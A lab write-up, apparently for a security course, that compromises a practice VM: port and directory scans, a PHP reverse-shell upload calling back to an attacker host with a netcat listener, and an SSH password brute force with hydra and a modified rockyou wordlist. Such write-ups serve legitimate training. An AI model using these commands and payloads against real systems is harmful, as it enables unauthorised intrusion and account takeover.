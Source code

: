  Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°546

Targets : Reconnaissance, brute force, exploit, web, privilege escalation

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
![picture 1](../images/ad7f8acf0ce7fab98ee21d1d6eed7be60aa2a356a3600f68404373a548c0602f.png)  

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options (uniquly ports and secondly enabling default scripts, identifying service versions, and disregarding ping host discovery.).

```bash
$ sudo nmap -p- 10.0.2.9
$ sudo nmap -sC -sV -Pn 10.0.2.9
```  
![picture 2](../images/541a238f4209f27f8c725c5a7fb111de46e584ed35d03e2ed91cc907d3ae509c.png)  

![picture 3](../images/3b973d0b72edd980b20f600b241a8ad3c5507d3b8a50479943f3626629e6a117.png)  


Now we can see that theses ports are open (all TCP) :
- port 22 —  OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
- port 80 - Apache httpd 2.4.18 ((Ubuntu))
- port 110 - Dovecot pop3d
- port 143 - Dovecot imapd

### 3. Find vulnerabilities

#### 3.1. Port 80 - HTTP

We can see that the web server is running on port 80, so we can try to find something on it with dirb.

```bash
$ dirb http://10.0.2.9
```

![picture 4](../images/26667cd50694326a941d37d7c7717a757a83a73b651afd87073576e68a2f2420.png)  

Nothing intresting here, so we can try to find something else with Dirsearch.

```bash
$ sudo apt install dirsearch
$ sudo dirsearch -u http://10.0.2.9 -U
```
`-U` is for using the UPPER case letters in wordlist. (hint in the vulnhub description)

![picture 0](../images/a0b2bae8a8fa21ed7f4fb9ae40c7d5b1ac3529efc7a8bb7fe762abad2f7d81d5.png)  

We can find ROBOTS.txt, so we can try to access it.

In the page we can see 2 things at the top and at the bottom of the page :

![picture 1](../images/7e89c2c2e8ab0d6251c25553feddd29aa1a4d948c25aefae7e6ad19a3e6be7b6.png)  


![picture 2](../images/e40a489de70dc0f6dcb9bdb21c7aa7982939feefb4e70ef58799c3966716dc17.png)  


We can try to access the page upload.php, but there is nothing in here...

The other string is more interesting, we don't have any access to this directory, maybe scan it with a tool like dirb or dirsearch.

![picture 3](../images/18e888b33f8ce694f5892fd8c3d1ea4b5c43df42257f3a6d9fcf337191e41928.png)  


With dirssearch we can find a new upload directory with one page to upload php files and another to upload html files.

![picture 4](../images/d5b84c75bbe00cfa1b963758323181a9e3fa5aec58c29b7129f5db2788bb5cac.png)  


![picture 5](../images/f60e59a12ab4e71aea2353d49caf922ecb35d2ac085bd299ca8f701535963cff.png)  


We can try to upload a file to get a reverse shell like the Lab4.
Just insure that the IP address and the port are correct in the port (the kali machine and a random port 8080 for me)
With this script
[Github source of php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![picture 6](../images/b1a61e9c4f44bd437aff5cfeb10831b9523f70c7a3242e76f7540b531831d695.png)  


```php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'kali-ip';  // CHANGE THIS
$port = 8080;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

We can listen with `nc -v -n -l -p 8080`

We need to access to this url to activate the reverse shell : `http://10.0.2.9/igmseklhgmrjmtherij2145236/upload/php-reverse-shell.php3`

![picture 7](../images/9eecf5b87975b9ad72fe3066c8e409eabd6624f8d2f5072202298faf1242901c.png)  

With that, we can access to a reverse shell with the user www-data.

Now, we can try to find a way to escalate privileges.
There is a hint in the www-data home directory, so we can try to find something in it.

![picture 8](../images/c3f9a2c451e1d3dac7a4c619a7fb28f6d445b5fc24f5255e75fa82cf89477a15.png)  


The hint mentions rockyou.txt and sed which is used for searching, replacing, and inserting/deleting text in a .txt document.

We can search other hints in other users in the system.

2 users are in the system : `anna` & `thomas`.

![picture 9](../images/71769649d93e524ff7a7ba2a23c4a74ebc584829accd4075af38d4905248d218.png)  

anna's directory is not accessible, but we can access to thomas's directory.
nothing in there, just one file interesting, `.todo`

![picture 10](../images/80d20d2e02a65eb6a3f54ccb32480177979c7d8c32d8ca4bb341029b47cb3a78.png)  

In todo file, we can see that thomas has to take a exclamation point to his passwords.

So maybe we can try to add a exclamation point to the password of thomas with sed and exploit it with hydra and rockyou.txt.

```bash
$ cat rockyou.txt | sed 's/$/!/g' > wordlist
```
Now, the new wordlist can be used with Hydra.

```bash
$ hydra -l thomas -P wordlist ssh://10.0.2.9 -t 4
```
-l for login, -p for password list and -t for the tasks in parallel

![picture 11](../images/11acfcee4f55d0311dee88d4f0aebe494cb71350f9230e1fc4a8b7cb954fc1be.png)  

